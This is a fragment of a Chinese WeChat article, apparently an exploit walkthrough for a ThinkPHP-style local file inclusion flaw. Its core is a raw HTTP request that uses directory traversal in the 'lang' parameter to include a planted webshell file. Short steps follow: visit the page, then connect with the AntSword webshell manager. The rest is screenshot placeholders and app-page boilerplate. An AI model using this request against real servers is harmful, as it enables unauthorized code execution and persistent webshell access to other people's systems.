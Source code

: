![]()

文件包含访问

    
    
    GET /public/index.php?lang=../../../../../../../../../../../../var/www/html/shell HTTP/1.1  
    Host: 192.168.36.128  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Sec-Purpose: prefetch;prerender  
    Purpose: prefetch  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=zh-cn  
    Connection: close

页面访问

![]()

使用蚁剑连接

![]()

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

